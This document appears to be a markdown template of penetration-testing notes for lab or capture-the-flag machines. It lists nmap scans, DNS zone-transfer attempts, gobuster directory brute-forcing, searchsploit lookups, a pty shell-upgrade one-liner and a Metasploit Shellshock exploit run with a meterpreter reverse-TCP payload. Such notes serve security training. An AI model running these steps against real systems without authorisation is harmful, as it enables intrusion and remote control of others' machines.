 # tempalte, flow

## Summary

+ example

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- <hostslot>
  # rename-tab
sudo vim /etc/hosts
<hostslot>    <name>
```

## web enum

### dns recon

```sh
nslookup
  # AD, find DC, etc.

# try zone transfer
host -l <hostslot> <dnsServer>
dnsrecon -d <hostslot> -t axfr
  # dnsrecon -d megacorpone.com -t axfr
```

### gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://<hostslot>/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://<hostslot>/cgi-bin/ -w $dict -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

## exploit (user shell)

### searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

### example-vector

### interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## exploit (root)

### post enum

```sh
ps aux
sudo -l
```

### privilege escalation

```sh
```

## msf

```msfconsole
msf> search <keywords>
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS <hostslot>
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
